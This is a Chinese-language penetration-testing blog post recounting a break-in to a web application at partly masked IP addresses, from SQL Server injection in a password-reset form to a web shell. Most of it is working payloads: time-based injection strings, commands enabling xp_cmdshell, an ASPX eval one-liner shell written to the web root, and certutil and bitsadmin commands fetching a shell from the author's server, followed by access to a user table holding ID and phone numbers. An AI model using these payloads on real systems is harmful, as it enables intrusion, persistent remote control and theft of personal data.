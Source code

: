 +++
title = "从SQL Server报错注入到getshell"
topics = ["Pentest"]
tags = ["pentest"]
description = "我的个人博客，主要用于记录自己的一些学习笔记之类的东西，其中有渗透测试、python、php等。"
date = "2019-03-02T20:23:35+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2019-03-02 10:45:01
 * @LastEditTime: 2019-05-08 15:33:55
 -->
### 0x00 目标情况
* 一个web站点111.\*.\*.63，只有一个登陆框，测试了没有注入，没有弱口令
* 扫描了全端口，没有发现什么有用的信息

### 0x01 发现注入
当时是查看网页源代码，有两个可疑接口，一个是初始化密码借口，访问返回空白页面，没有什么用

另一个是密码设置接口，不过这个接口是同网段的另一个ip 111.\*.\*.59，访问后发现是个重置密码的界面
![80](/img/post/Xnip2019-03-03_14-50-18.png)

但是进行密码重置的时候需要发送验证码，系统会先校验用户名是否存在，加单引号出错，and 1=2没反应

burpsuite抓包后sqlmap跑了下，python sqlmap.py -r 1.txt，存在注入
![80](/img/post/Xnip2019-03-03_16-00-32.png)

通过sqlmap得到了这几个数据库
```
[*] HSOA_20170320
[*] HSOA_NEW
[*] HSOA_T
[*] master
[*] model
[*] msdb
[*] Shuttle
[*] SHWT
[*] tempdb
```

### 0x02 找网站绝对路径
* 判断是不是dba权限(延时后返回正确页面，确定为dba权限<也可用sqlmap的--is-dba判断>)

```
uname=test';if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:2';--
```

* 判断是否是站库分离(延时后返回正确页面，确定站库没有分离)

```sql
uname=test';if(host_name()=@@servername) WAITFOR DELAY '0:0:5';--
```

* 查看是否有xp_cmdshell

```
uname=test';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:2'--
```
```
恢复／删除xp_cmdshell
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
exec sp_dropextendedproc 'xplog70.dll'
```

* 开启xp_cmdshell

```
# 关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

* 得到网站绝对路径

可以找一个在网站中的文件，然后可以用```dir /s /b d:\"aa.txt"```或者 for /r d:\ %i in (aa.txt) do echo %i来得到路径

查看网页源代码发现引入了js脚本```"<script src="/Content/layer/layer.js"></script>"```，就查找layer.js吧

本来想使用sqlmap的-\-os-shell直接执行命令试试，python sqlmap.py -r 1.txt --os-shell，但是发现执行命令的话一直没有数据返回

<br>
那就手工注入找路径，先建表，将路径插入表，然后得到表内容

```
--在数据库tempdb下创建临时表tt_tmp
uname=test';use tempdb;create table tt_tmp (tmp1 varchar(1000));--
```

sqlmap查看建表成功，```sqlmap -r 1.txt --dbms "Microsoft SQL Server" -D "tempdb" --tables```
![40](/img/post/Xnip2019-03-03_18-16-01.png)

```
--查找网站文件并把路径写入到表tt_tmp
uname=test';use tempdb;insert into tt_tmp(tmp1) exec master..xp_cmdshell 'dir /s /b d:\layer.js';--
```

用sqlmap得到表tt_tmp的内容: ```python sqlmap.py -r 1.txt --dbms="Microsoft SQL Server" --technique=S -D "tempdb" -T "tt_tmp" -C "tmp1" --dump -v 3```
![65](/img/post/Xnip2019-02-28_10-01-37.png)

### 0x03 尝试在111.\*.\*.59主机getshell
* 尝试写一句话

先在下面的路径中写入txt文件验证网站路径到底是哪一个

```
D:\bak\20170226\bak\20170403.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.3\webapp\Content\layer\
D:\bak\20170226\bak\20170404\webapp\Content\layer\
D:\bak\20170226\bak\20170405\webapp\Content\layer\
D:\bak\20170226\bak\20170407\webapp\Content\layer\
D:\bak\20170226\bak\20180103\webapp\Content\layer\
D:\bak\20170226\bak\20180320\webapp\Content\layer\
D:\bak\20170226\webapp\Content\layer\
D:\bak\20170226\webappYM\Content\layer\
D:\WEBAPP\Content\layer\
```

```sql
uname=test';exec master..xp_cmdshell 'echo test >D:\bak\20170226\bak\20170403.2\webapp\Content\layer\11.txt';--
```
依次写文件然后访问，在写入 ```D:\bak\20170226\webapp\Content\layer\123.txt```时，访问```http://111.*.*.59/Content/layer/123.txt```能正常访问到123.txt，返回内容为test，证明web路径就是D:\bak\20170226\webapp\
<br>
尝试写入一句话(< >的前面要加^)
```sql
uname=test';exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.item["Aa1234567"],"unsafe");%^> > D:\bak\20170226\webapp\Content\layer\cc.aspx';--
```

访问时可以看到aa.aspx确实写入了，但是菜刀连接不上
![70](/img/post/Xnip2019-03-03_20-25-24.png)

* 尝试直接下载shell到服务器

使用bitsadmin下载时并没有成功，访问```http://111.*.*.59/Content/layer/aaa.aspx```返回404
```sql
uname=test';exec master..xp_cmdshell 'bitsadmin /rawreturn /transfer getfile http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```

使用certutil下载时才成功，得到shell地址```http://111.*.*.59/Content/layer/aaa.aspx```
```sql
uname=test';exec master..xp_cmdshell 'certutil -urlcache -split -f http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```
![70](/img/post/Xnip2019-03-03_20-42-24.png)

### 0x04 查数据库相关信息
* 找到数据库配置文件
![80](/img/post/Xnip2019-03-05_10-25-52.png)
![90](/img/post/Xnip2019-03-05_10-34-10.png)
![90](/img/post/Xnip2019-03-05_10-37-28.png)

* 尝试登陆

找到了用户表，有用户名、密码、姓名、手机号、邮箱、身份证号
![80](/img/post/Xnip2019-03-05_11-00-44.png)
在111.\*.\*.63登陆发现它只是个登陆接口，真正网站是在111.\*.\*.59的
![60](/img/post/Xnip2019-03-05_11-03-08.png)


### 0x05 附：sqlmap得到路径的语句分析
```sql
cast转换数据类型
isnull判断数据是否为空，为空的话返回char(32)
unicode字符转换为10进制数字

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp),1,1))>32) WAITFOR DELAY '0:0:1';

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp WHERE CONVERT(NVARCHAR(4000),tmp1)>'D:\WEBAPP\Content\layer\layer.js'),1,1))>16) WAITFOR DELAY '0:0:1';
```


<br>
#### Reference(侵删)：
* [https://www.cnblogs.com/backlion/p/6869595.html](https://www.cnblogs.com/backlion/p/6869595.html?_blank)


